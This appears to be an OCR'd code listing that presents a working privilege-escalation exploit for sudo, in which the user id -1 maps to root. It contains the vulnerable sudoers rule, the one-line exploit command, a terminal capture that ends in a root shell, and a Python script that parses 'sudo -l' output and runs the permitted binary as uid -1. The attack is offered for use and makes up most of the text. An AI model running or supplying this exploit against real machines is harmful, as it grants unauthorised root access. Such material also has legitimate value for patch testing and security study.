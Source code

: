 ```cpp

hacker ALL=(ALL,!root) /bin/bash

With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")

#check which binary the user can run with sudo

os.system("sudo -l > priv")

os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```
